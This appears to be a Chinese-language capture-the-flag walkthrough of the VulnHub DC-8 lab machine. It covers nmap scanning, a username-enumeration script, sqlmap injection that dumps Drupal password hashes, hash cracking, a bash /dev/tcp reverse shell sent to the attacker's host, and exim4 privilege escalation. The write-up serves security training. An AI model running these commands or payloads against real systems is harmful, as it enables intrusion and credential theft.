# 目标

get **flags**


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.43`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.43 -Pn -sS -sV -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.43 -Pn -sT -sV -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.43 -Pn -sU -sV --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.43 -sV -sC -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.43 -sV --script vuln -p 22,80,2 -O --max-rate 10000 -oA nmap-scan/vuln
```
很多信息。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.43 -sV --script ssh-auth-methods.nse,ssh-hostkey.nse -p 22
```

ssh只能通过密钥登陆。

## 1.4 80端口获取信息
### 1.4.1 访问`http://192.168.64.43`

上面有信息，网站应该是在维护。

### 1.4.2 扫描Drupal
```shell
droopescan scan drupal -u http://192.168.64.43 -o json
```
发现了一些Plugin和theme，这个Drupal的版本是*7.64*。登陆点在`http://192.168.64.43/user/login`.

### 1.4.3 搜索当前版本的Drupal的漏洞

尝试了*44448*, *46452*, *46459* 都不行。

### 1.4.4 访问`http://192.168.64.43/robots.txt`


### 1.4.5 fuzz首页`index.php`的参数
```shell
ffuf -u http://192.168.64.43/index.php?FUZZ=id -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -rate 20 -t 20 -ac
ffuf -u http://192.168.64.43/index.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -rate 20 -t 20 -ac
```
除了*robots.txt*里面提供的`p`，这里扫出来一个`nid`参数。

### 1.4.6 枚举用户名
```python
import requests
from time import sleep
from rich.progress import Progress, BarColumn, TextColumn, TimeElapsedColumn, TimeRemainingColumn

url = "http://192.168.64.43/user/password"

users_file = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"
headers = {
    'Host': '192.168.64.43',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.64.43',
    'Connection': 'keep-alive',
    'Referer': 'http://192.168.64.43/user/password',
    'Cookie': 'has_js=1',
    'Upgrade-Insecure-Requests': '1'
}

with open(users_file, "r", encoding="utf-8", errors="ignore") as f:
    users = [line.strip() for line in f if line.strip()]

total = len(users)
session = requests.Session()

with Progress(
    TextColumn("[bold blue]{task.description}"),
    BarColumn(),
    TextColumn("{task.completed}/{task.total}"),
    TimeElapsedColumn(),
    TimeRemainingColumn(),
) as progress:
    task = progress.add_task("Bruteforcing...", total=total)

    for u in users:
        data = {
            'name': u,
            'form_build_id': 'form-PFA8ngQLJCnqAg7TZhrWtPpvQFOsKiZYfbJFX1Ilh2k',
            'form_id': 'user_pass',
            'op': 'E-mail+new+password'
        }

        try:
            response = session.post(
                url,
                headers=headers,
                data=data,
                timeout=10,
                allow_redirects=False
            )
        except requests.RequestException as e:
            progress.console.print(f"[red]Request error:[/red] {e}")
            progress.update(task, advance=1)
            continue

        if 'Error message' not in response.text:
            progress.console.print(
                f"[green]Possible hit[/green] "
                f"status={response.status_code}; username={u};"
                f"length={len(response.content)}"
            )

        progress.update(task, advance=1)
        sleep(0.1)
```


### 1.4.7 尝试sql注入
使用sqlmap尝试一下*sql injecting*,
```shell
sqlmap -u http://192.168.64.43/index.php?nid=2 -p "nid" --level 5 --risk 3 --batch --dbs
sqlmap -u http://192.168.64.43/index.php?p=node/2 -p "p" --level 5 --risk 3 --batch --dbs
```
- `[WARNING] GET parameter 'p' does not seem to be injectable`
- `nid`参数
    ```
    available databases [2]:                                                                                                
    [*] d7db
    [*] information_schema
    ```
获取d7db里面的信息：
```shell
# 获得里面的表格
sqlmap -u http://192.168.64.43/index.php?nid=1 -p "nid" --level 5 --risk 3 --batch -D d7db --tables
```
得到许多表格，查看里面的重要内容:
```shell
sqlmap -u http://192.168.64.43/index.php?nid=1 -p "nid" --level 5 --risk 3 --batch -D d7db -T users -C "uid,name,pass" --dump
```
结果如下，
```text
+-----+---------+---------------------------------------------------------+
| uid | name    | pass                                                    |
+-----+---------+---------------------------------------------------------+
| 0   | <blank> | <blank>                                                 |
| 1   | admin   | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| 2   | john    | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-----+---------+---------------------------------------------------------+
```
这样的话，上面的用户名枚举都不需要了🤡

### 1.4.8 尝试使用john来破解（这个用户名john是不是也有提示的作用？！🌚）
先判断一下上面的加密方式：
```shell
echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' | hashid -mj
```
```text
Analyzing '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z'
[+] Drupal > v7.x [Hashcat Mode: 7900][JtR Format: drupal7]
```
将上面信息保存进`passwd.hash`文件, 内容如下，
```text
admin:$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john:$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```
运行john，开始破解，
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --format=drupal7 passwd.hash
```
可以破解出来，(按照我上面那样跑的太慢了，我分开来一个个跑，john用户很快就破解出来了，但是admin用户跑的是在太慢了，我跑了30min没跑出来)
- username: `john`
- password: `turtle`

---

# 2.建立系统立足点
**登陆Drupal网站**


努力的翻找，终于找到了

应该是需要在里面填上邮箱与用户名来触发，



报错了，是个好消息，说明函数是在执行的。
尝试在当前url加上`x`参数，`http://192.168.64.43/node/3/done?sid=2&x=ls`

可以成功。

现在建立反弹连接，在kali端开启监听`nc -lvnp 1025`
访问网址: `http://192.168.64.43/node/3/done?sid=2&x=bash -c 'bash -i >%26 /dev/tcp/192.168.64.2/1025 0>%261'`


---

# 3.系统提权

```shell
find / -perm -4000 -type f 2>/dev/null
```
可以找到一个`exim4`很可疑。在网站GTFOBins上是找不到的，

应该是可以使用*46996*.




上面看上去运行一下很简单，但是实际我的提权的时候后出现各种情况，最终成功了。🌚

---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-8**: 
- website: `https://www.vulnhub.com/entry/dc-8,367/`
- IP: `192.168.64.43`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐